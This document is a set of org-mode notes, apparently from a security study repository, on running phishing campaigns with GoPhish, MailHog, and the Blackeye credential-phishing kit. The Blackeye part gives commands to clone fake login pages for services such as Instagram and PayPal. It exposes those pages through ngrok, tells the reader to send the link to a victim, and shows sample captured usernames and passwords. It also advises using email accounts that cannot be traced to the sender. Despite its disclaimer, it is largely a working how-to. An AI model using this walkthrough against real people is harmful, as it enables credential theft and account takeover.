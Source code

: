 #+title:Phishing
#+OPTIONS: \n:t
#+roam_tags: Social_Engineering
#+attr_html: :width 100px

[WARNING: WRITER ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY USING TOOLS MENTIONED IN THIS REPO. IT IS ILLEGAL TO USE THIS TOOLS WITHOUT MUTUAL CONSENT, YOU'VE BEEN WARNED!]

Phishing is a type of attack that are using E-mail, voice (Vishing), or SMS (smishing) to attack its target. This kind of attack can be pointed into an individual which is called as spear phishing. Phishing has been around since 90s targeting America Online (AOL). In these day and age, phishing is disguised in many ways, from E-mail notification of a big company sending you money, or even from a fake account that are sending you "love letter" with malware in disguise.

** How does it work?

Phishing can be done in multiple ways, while phishing itself can be run through E-mail, you might want to use other means of attack if you are targeting a specific person that might or might not use E-mail. Whatsapp, social media, can be used for Phishing campaign, it is because the educational needs in social media todays are mostly teenagers, which is a possible target for phishing.

Phishing servers are usually run on cloud services, or can be hosted local in a computer, but since Phishers are sneaky, one might use public instances to do the attack. Each fake E-mail is sent to victim(s) E-mail address in lieu of other means of attack said above. Digital Ocean or AWS might be a good place to hosts this server. While the E-mail is sent, Phishers might get notice when the link is clicked or opened, if the E-mail is read or not, if the Landing Page sent already have forms filled by victim(s) or not, and any information related to the campaign.

** Gophish

WEB: https://getgophish.com/
GIT: https://github.com/gophish/gophish

GoPhish can be used to create a campaign based Phishing environment, for this environment to work, we have to setup some boundaries first, one rule of thumb, do not use your personal mail address for this. =Mailhog= will help assigning email@localhost.localdomain to hog all the mail that sent or receive during the campaign, it is possible to use other E-mail address, but there's some issues that when sent to an E-mail address based on Google, it is possible that it will already flagged as spam or something else to help with the security.

There are multiple preparation that you can do to help with assigning things later for gophish:
- AWS, Azure, Digital Ocean, or local can be used as the base for GoPhish server.
- GoPhish might want E-mail address like Mailhog or other E-mail services that have smtp available can be used.
- Target E-mail, E-mail content, and a Landing Page, are needed for GoPhish to work.
  + GoPhish might want a Landing Page that are possible to be duplicated, as of writing, it is currently not possible to copy Facebook based web address, but your mileage may vary.
  + GoPhish also want E-mails that can use smtp, the username and password in the page needs your e-mail credentials, this is why it is not even recommended to use your personal address, use E-mail services that are not connected to you by any means.

#+begin_src shell
# GoPhish
$ mkdir -p ~/opt/gophish
$ cd ~/opt/gophish
$ curl -L https://github.com/gophish/gophish/releases/download/0.7.1/gophish-v0.7.1-linux-64bit.zip -o gophish.zip
$ unzip gophish.zip

# MailHog
$ sudo apt-get -y install golang-go
$ go get github.com/mailhog/MailHog
#+end_src

Once you clone GoPhish and installing MailHog, you can then run it via command line by running:

#+begin_src shell
# 1st Terminal
$ cd ~/opt/gophish
$ sudo ./gophish

# 2nd Terminal
$ cd ~/go/bin
$ sudo ./MailHog
#+end_src

Once you run it on *separate* terminal, now we need to go to https://localhost:3333 for GoPhish and https://localhost:8025 for MailHog. There are some templates you have to fill before we launch the attack, this will be discussed on the next section. Username for *GoPhish* is =admin= & =gophish=.

*** Sending Profile

[[./Assets/GoPhish_Sending_Profiles.png]]

You might want to use port =1025= for smtp, it will be already configured if you run MailHog, this will send email to that smtp address, also you can try =Send Test Email= to check if it is sending to the right address.


*** Landing Pages

[[./Assets/GoPhish_Landing_Pages.png]]
[[./Assets/GoPhish_Landing_Pages_URL.png]]

Here will be where you import the site, click on import and include URL to the page that you want to clone, also you can redirect it to the real address.

*** E-Mail Templates

[[./Assets/GoPhish_Email.png]]

You can use Templates as above, it is taken from official GoPhish documentation page, you might want to go [[https://docs.getgophish.com/user-guide/building-your-first-campaign/creating-the-template][here]]. It is also possible to include attachments using this email, since it is only for testing purpose, it will attached nothing.

[[./Assets/GoPhish_Email_URL.png]]

To include the url, you have to highlight the word here and click *link* button in the html editor, it will then brought you this window to include your URL.

*** Groups

[[./Assets/GoPhish_Groups.png]]


Since it is possible if you want to send it to multiple people, you can have it inside the groups, you can import it using CSVs.

*** Launching Campaign

After all the preparation, we can then go to *Campaign* page and create a new campaign, you can also clone or edit your campaign here.

[[./Assets/GoPhish_Campaign.png]]

Be sure to point the URL to your localhost for this, or to the server you're running if you're using instances like Digital Ocean or AWS.

*** Dashboard

You can then see your victims and overall status from the dashboard area.

[[./Assets/GoPhish_Dashboard.png]]
[[./Assets/GoPhish_Results.png]]


*** MailHog

This will be the E-mail that you get from GoPhish.

[[./Assets/MailHog.png]]


** Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

[ WARNING ] This preparation are needed if =blackeye.sh= not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works. Go to next section to actually run =blackeye=.

Here is the command you need to install and setup ngrok manually, though you will proabably be downloading this again in =blackeye=, so you might want to copy ngrok to your =blackeye= folder later. Authtoken can be seen [[https://dashboard.ngrok.com/get-started/your-authtoken][here]].

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

If you run ngrok server by itself, it will be seen like this:

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

As of when this articles made, you can access http://127.0.0.1:4040/status to check ngrok status and below =command_line= section, you will see your URL that can be used.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # check http://localhost:4040
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src

If your php is not connected, you can do this instead before running =blackeye=.

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src
